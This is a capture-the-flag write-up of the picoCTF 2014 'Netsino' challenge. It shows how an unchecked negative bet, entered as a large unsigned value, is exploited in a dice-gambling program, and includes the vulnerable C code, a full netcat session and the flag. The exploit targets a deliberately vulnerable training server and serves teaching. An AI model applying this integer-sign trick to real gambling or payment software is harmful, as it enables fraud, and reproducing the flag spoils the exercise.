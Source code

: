 ### Solved by barrebas

Netsino is a 120 point challenge. 

`
Daedalus seems to have ties to a shady online gambling boss. Maybe if 
you beat him at his own game, you can persuade him to share some useful 
info. The server is running on vuln2014.picoctf.com:4547 and the source 
code can be found here.
`

We are presented with an online gambling program. You randomly get some cash and have to gamble against the boss. The following code takes your betsize:
 
```c
long getbet() {
    while(1) {
        printf("You've got $%lu. How much you wanna bet on this next toss?\n", player_cash);
        long bet = getnum(); 
        if(bet <= player_cash) {
            return bet;
        } else {
            puts("Yerr can't bet more than ya got!");
        }
    }
}
```
The object is to win all the boss' money, so he'll give you the flag. Unfortunately, the program is coded pretty securely. Furthermore, the odds of winning aren't favorable. Luckily for us, the program makes a mistake when reading in the betsize. If we supply a large enough value, then the number being read will be negative. The program does not check for this. So let's supply `0xf0000000`, which is 4026531840. For the c program, however, it will be a negative number. Thus, the betsize check will pass, because -268435445 is less than your total amount. Next, all we have to do is lose:

```c
void play(long choice, long bet, int x, int y) {
    switch(choice) {
		//...snip...
        case 5: if(x == 1 && y == 1) {
                player_cash += 36*bet;
                boss_cash -= 36*bet;
                puts(wins[rand()%3+7]);
            } else {
                puts(loses[rand()%3+7]);
            }
            break;
```

By betting on snake-eyes (a very slim chance of that happening), the program will subtract the betsize times 36 from our cash and add that same amount to the boss' money. However, we supplied a very large negative number for the betsize, meaning that we actually *get* money and the boss loses money. Rinse & repeat this a couple of times to get the flag:

```
bas@tritonal:~$ nc vuln2014.picoctf.com 4547
Arr, git ye into me casio, the hottest gamblin' sensation on the net!
Here, have a fiver, and let's gamble!
You've got $5. How much you wanna bet on this next toss?
> 4026531840
1: EVEN. Win your bet back plus an additional $4026531840 if the dice sum even.
2: ODDS. Win your bet back plus an additional $3489660928 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $2952790016 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $2147483648 if the dice sum to four.
5: EYES. Win your bet back plus an additional $3489660928 on snake eyes.
What'll it be?
> 5
Lets rock 'n' roll!
5 3
Snake eyes! ...not.
You've got $268435461. How much you wanna bet on this next toss?
> 4026531840
1: EVEN. Win your bet back plus an additional $4026531840 if the dice sum even.
2: ODDS. Win your bet back plus an additional $3489660928 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $2952790016 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $2147483648 if the dice sum to four.
5: EYES. Win your bet back plus an additional $3489660928 on snake eyes.
What'll it be?
> 5
Lets rock 'n' roll!
5 4
You seem to enjoy loosing.
You've got $536870917. How much you wanna bet on this next toss?
> 4026531840
1: EVEN. Win your bet back plus an additional $4026531840 if the dice sum even.
2: ODDS. Win your bet back plus an additional $3489660928 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $2952790016 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $2147483648 if the dice sum to four.
5: EYES. Win your bet back plus an additional $3489660928 on snake eyes.
What'll it be?
> 5
Lets rock 'n' roll!
2 1
Snake eyes! ...not.
You've got $805306373. How much you wanna bet on this next toss?
> 4026531840
1: EVEN. Win your bet back plus an additional $4026531840 if the dice sum even.
2: ODDS. Win your bet back plus an additional $3489660928 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $2952790016 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $2147483648 if the dice sum to four.
5: EYES. Win your bet back plus an additional $3489660928 on snake eyes.
What'll it be?
> 5
Lets rock 'n' roll!
4 3
Like that was ever gonna happen.
Great, I'm fresh outta cash. Take this flag instead.
i_wish_real_casinos_had_this_bug
Git outta here.
```
